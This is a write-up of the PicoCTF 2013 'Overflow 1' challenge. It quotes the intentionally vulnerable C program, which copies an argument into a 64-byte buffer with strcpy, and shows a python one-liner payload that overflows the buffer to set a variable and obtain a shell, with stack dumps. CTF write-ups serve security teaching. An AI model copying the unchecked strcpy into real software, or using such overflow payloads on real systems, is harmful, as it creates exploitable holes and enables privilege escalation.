 # PicoCTF 2013: Overflow 1

**Category:** Binary Exploitation
**Points:** 90
**Description:**

>Stack overflows are the most basic binary exploitation technique, but they
>take a lot of skill to master. If you already know some C, these problems can
>help acquaint you with stacks and binary exploitation in general.

>Problem available on the shell machine in
>/problems/stack_overflow_1_3948d17028101c40 , downloadable [here](https://2013.picoctf.com/problems/overflow1-3948d17028101c40) with source
>[here](https://2013.picoctf.com/problems/overflow1-3948d17028101c40.c).

>If you solve the problem you will be able to read the key file by running

> cat /problems/stack_overflow_1_3948d17028101c40/key

>on the PicoCTF shell machine

>**Hint:**n general, the compiler will put things on the stack in the order
>they appear in the code. Also google 'endianness'

## Write-up

Looking at the source, we can see a few things:
```C
void vuln(int tmp, char *str) {
    int win = tmp;
    char buf[64];
    strcpy(buf, str);
    dump_stack((void **) buf, 23, (void **) &tmp);
    printf("win = %d\n", win);
    if (win == 1) {
        execl("/bin/sh", "sh", NULL);
    } else {
        printf("Sorry, you lose.\n");
    }
    exit(0);
}

int main(int argc, char **argv) {
    if (argc != 2) {
        printf("Usage: stack_overwrite [str]\n");
        return 1;
    }

    uid_t euid = geteuid();
    setresuid(euid, euid, euid);
    vuln(0, argv[1]);
    return 0;
}
```

First, our input is a command line argument to the program. Second, if we can
set the win variable equal to 1, we'll get a shell! Let's dive in.

```
$ ./overflow1-3948d17028101c40 $(python -c 'print "A"*64 + "B"')
Stack dump:
0xffa81994: 0xffa82845 (second argument)
0xffa81990: 0x00000000 (first argument)
0xffa8198c: 0x0804870f (saved eip)
0xffa81988: 0xffa819b8 (saved ebp)
0xffa81984: 0xf779c000
0xffa81980: 0xf76a8a00
0xffa8197c: 0x00000042
0xffa81978: 0x41414141
0xffa81974: 0x41414141
0xffa81970: 0x41414141
0xffa8196c: 0x41414141
0xffa81968: 0x41414141
0xffa81964: 0x41414141
0xffa81960: 0x41414141
0xffa8195c: 0x41414141
0xffa81958: 0x41414141
0xffa81954: 0x41414141
0xffa81950: 0x41414141
0xffa8194c: 0x41414141
0xffa81948: 0x41414141
0xffa81944: 0x41414141
0xffa81940: 0x41414141
0xffa8193c: 0x41414141 (beginning of buffer)
win = 66
Sorry, you lose.
```
You'll see that if we fill up our buffer ("A"\*64) and andd one more letter,
the value of win gets changed. For those of you who don't know, the ascii value
of "B" is 66, meaning we have control over the win variable. All we have to do
is submit a character with an ascii value of 1. Since this isn't printable,
we're going to use escape sequences in python.
```
$ ./overflow1-3948d17028101c40 $(python -c 'print "A"*64 + "\x01"')
Stack dump:
0xff828874: 0xff829848 (second argument)
0xff828870: 0x00000000 (first argument)
0xff82886c: 0x0804870f (saved eip)
0xff828868: 0xff828898 (saved ebp)
0xff828864: 0xf77b7000
0xff828860: 0xf76c3aa7
0xff82885c: 0x00000001
0xff828858: 0x41414141
0xff828854: 0x41414141
0xff828850: 0x41414141
0xff82884c: 0x41414141
0xff828848: 0x41414141
0xff828844: 0x41414141
0xff828840: 0x41414141
0xff82883c: 0x41414141
0xff828838: 0x41414141
0xff828834: 0x41414141
0xff828830: 0x41414141
0xff82882c: 0x41414141
0xff828828: 0x41414141
0xff828824: 0x41414141
0xff828820: 0x41414141
0xff82881c: 0x41414141 (beginning of buffer)
win = 1
$
```

The "\x01" in python is just a way for us to supply a non printable character.


## Other write-ups and resources

* none yet
